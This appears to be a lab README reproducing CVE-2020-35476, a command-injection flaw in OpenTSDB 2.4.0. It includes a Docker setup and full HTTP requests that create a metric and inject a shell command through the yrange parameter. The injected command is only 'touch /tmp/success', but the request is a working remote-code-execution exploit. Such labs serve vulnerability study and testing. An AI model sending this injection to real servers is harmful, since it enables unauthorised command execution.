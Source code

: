 # OpenTSDB arbitrary commands injection (CVE-2020-35476)

[中文版本(Chinese version)](README.zh-cn.md)

OpenTSDB is a distributed, scalable Time Series Database (TSDB) written on top of HBase.

A remote code execution vulnerability occurs in OpenTSDB through 2.4.0 via command injection in the yrange parameter. The yrange value is written to a gnuplot file in the /tmp directory. This file is then executed via the mygnuplot.sh shell script. (tsd/GraphHandler.java attempted to prevent command injections by blocking backticks but this is insufficient.)

References:

- https://github.com/OpenTSDB/opentsdb/issues/2051
- https://packetstormsecurity.com/files/136753/OpenTSDB-Remote-Code-Execution.html

## Vulnerable Environment

Execute the following command to start a OpenTSDB server 2.4.0:

```
docker-compose up -d
```

Once the service is started, visit `http://your-ip:4242` to see the web interface of the OpenTSDB.

## Exploit

You need to know the name of a metric before you can exploit this vulnerability on `http://your-ip:4242/api/suggest?type=metrics&q=&max=10`:

![](1.png)

However, the metrics list is empty.

Fortunately, the `tsd.core.auto_create_metrics` is set to `true` in this vulnerable OpenTSDB, so you can create a metric named `sys.cpu.nice` through following request:

```
POST /api/put/ HTTP/1.1
Host: your-ip:4242
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 150

{
    "metric": "sys.cpu.nice",
    "timestamp": 1346846400,
    "value": 20,
    "tags": {
       "host": "web01",
       "dc": "lga"
    }
}
```

If at least one metric exists and is not empty, the above request is not required.

Send following request, where the value of the parameter `m` must contain a valid metric name:

```
GET /q?start=2000/10/21-00:00:00&m=sum:sys.cpu.nice&o=&ylabel=&xrange=10:10&yrange=[0:system(%27touch%20/tmp/success%27)]&wxh=1516x644&style=linespoint&baba=lala&grid=t&json HTTP/1.1
Host: your-ip:4242
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close


```

![](2.png)

`touch /tmp/success` has been successfully executed.

![](3.png)
